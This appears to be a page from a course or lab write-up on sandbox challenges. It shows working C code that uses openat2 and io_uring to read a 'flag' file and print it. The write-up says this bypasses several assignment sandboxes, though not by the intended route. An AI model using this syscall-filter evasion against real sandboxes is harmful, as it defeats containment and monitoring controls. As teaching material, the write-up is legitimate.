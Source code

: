 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}[language=C]
    /* 12) Cleanup. */
    munmap(sq_ring, sq_ring_sz);
    munmap(sqes, sqes_sz);
    munmap(cq_ring, cq_ring_sz);
    close(ring_fd);

    return 0;
}
\end{lstlisting}

\subsection{\texttt{liburing}}
This example uses \texttt{liburing} to do the same thing more succinctly although it's not supported on grading platform (since it requires \texttt{-luring} flag to compile, which requires you to install the package \texttt{liburing-dev}).

\begin{lstlisting}[language=C]
#define _GNU_SOURCE
#include <fcntl.h>
#include <liburing.h>
#include <stdio.h>
#include <string.h>
#include <sys/syscall.h>
#include <unistd.h>

#define FLAG_SIZE 1024

int main() {
	char flag[FLAG_SIZE] = {0};
	struct open_how how;
	memset(&how, 0, sizeof(how));
	how.flags = O_RDWR | O_CREAT;
	how.mode = 0644;
	int fd = syscall(SYS_openat2, AT_FDCWD, "./flag", &how, sizeof(how));
	if (fd < 0) {
		fprintf(stderr, "Failed to open flag: %m\n");
		return 1;
	}
	read(fd, flag, FLAG_SIZE);
	close(fd);

	struct io_uring ring;
	struct io_uring_sqe *sqe;
	struct io_uring_cqe *cqe;
	if (io_uring_queue_init(8, &ring, 0) < 0) {
		perror("io_uring_queue_init");
		return 1;
	}

	// Get a submission queue entry (SQE)
	sqe = io_uring_get_sqe(&ring);
	if (!sqe) {
		fprintf(stderr, "Failed to get SQE\n");
		io_uring_queue_exit(&ring);
		return 1;
	}

	// Prepare the write operation
	io_uring_prep_write(sqe, STDOUT_FILENO, flag, strlen(flag), 0);

	// Submit the request
	io_uring_submit(&ring);

	// Wait for completion
	if (io_uring_wait_cqe(&ring, &cqe) < 0) {
		fprintf(stderr, "Failed to wait for CQE\n");
		io_uring_queue_exit(&ring);
		return 1;
	}

	// Check result
	if (cqe->res < 0) {
		fprintf(stderr, "Write failed: %s\n", strerror(-cqe->res));
	}

	// Mark completion as done
	io_uring_cqe_seen(&ring, cqe);
	io_uring_queue_exit(&ring);

	return 0;
}
\end{lstlisting}

These solutions successfully bypass \texttt{sandbox1}, \texttt{sandbox3}, and \texttt{sandbox4}, but
they are not the intended solutions for the assignment.
\end{document}
